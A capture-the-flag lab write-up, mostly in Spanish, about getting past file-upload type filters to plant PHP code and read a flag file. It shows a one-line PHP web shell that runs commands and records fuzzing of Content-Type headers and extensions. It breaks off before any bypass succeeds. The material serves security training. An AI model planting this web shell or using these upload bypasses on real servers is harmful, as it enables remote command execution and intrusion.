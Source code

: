 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- Descargamos la wordlist y filtramos sólo por content-type relacionados a imágenes:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Nota: `/image/jpg` no está en la lista.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

## Ejercicio

Hacemos fuzzing de `Content-Type` header para ver qué tipos son permitidos:
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)

![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)

Tenemos que sólo son permitidos los siguientes tipos:
- image/gif
- image/jpeg
- image/png


De forma manual sabemos que también permite `image/jpg`.


Ahora testeamos el `file content` utilizando `magic bytes` para conocer los `MIME Types` permitidos:
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)
![image](https://github.com/user-attachments/assets/8acbe838-c50e-48ac-8322-5a2948e611ff)



Intentamos subir la web shell con la extensión `.php` y el servidor nos responde `Extension not allowed`:
![image](https://github.com/user-attachments/assets/290960dc-0829-456a-a84f-2c4ece59ded5)

Sabemos que tenemos blacklist and whitelist. Hacemos fuzzing de whitelist con common web extensions de Seclists, para investigar si se permite alguna extensión además de las extensiones de imágenes:
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)
No hay ninguna extensión web adicional que esté incluida en la whitelist.
Sabemos que el servidor está validando extensiones a través de una blacklist, que contiene bastantes tipos de extension `.php`, en este caso, el servidor contesta con el mensaje `Extension not allowed`.
Cuando la validación se realiza a través de la whitelist, el servidor responde `Only images are allowed`.

